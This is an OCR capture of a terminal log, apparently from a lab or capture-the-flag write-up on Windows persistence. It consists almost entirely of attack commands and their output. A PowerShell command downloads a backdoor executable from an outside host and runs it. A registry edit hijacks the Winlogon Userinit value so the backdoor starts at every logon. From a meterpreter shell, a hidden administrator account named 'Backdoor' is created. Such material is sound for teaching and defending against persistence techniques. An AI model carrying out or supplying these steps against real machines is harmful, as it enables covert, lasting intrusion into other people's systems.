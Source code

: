 
```
PS C:\Users\Administrator\Downloads> Invoke-WebRequest -Uri "http://10.8.106.222/backdoor.exe" -OutFile "C:\Users\Admini
strator\Downloads\backdoor.exe"
PS C:\Users\Administrator\Downloads> ls


    Directory: C:\Users\Administrator\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/30/2020   1:47 PM          73802 backdoor.exe


PS C:\Users\Administrator\Downloads> .\backdoor.exe
PS C:\Users\Administrator\Downloads> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d
 "Userinit.exe, C:\Users\Administrator\Downloads\backdoor.exe" /f
The operation completed successfully.
PS C:\Users\Administrator\Downloads>
```

`Invoke-WebRequest -Uri "http://10.8.106.222/backdoor.exe" -OutFile "C:\Users\Backdoor\Downloads\backdoor.exe"`

`reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, C:\Users\Administrator\Downloads\backdoor.exe" /f`

```
meterpreter > shell
Process 5004 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Downloads>net user /add Backdoor backdoor
net user /add Backdoor backdoor
The command completed successfully.


C:\Users\Administrator\Downloads>net localgroup Administrators Backdoor /add
net localgroup Administrators Backdoor /add
The command completed successfully.


C:\Users\Administrator\Downloads>net localgroup Administrators
net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Backdoor
The command completed successfully.


C:\Users\Administrator\Downloads>
```
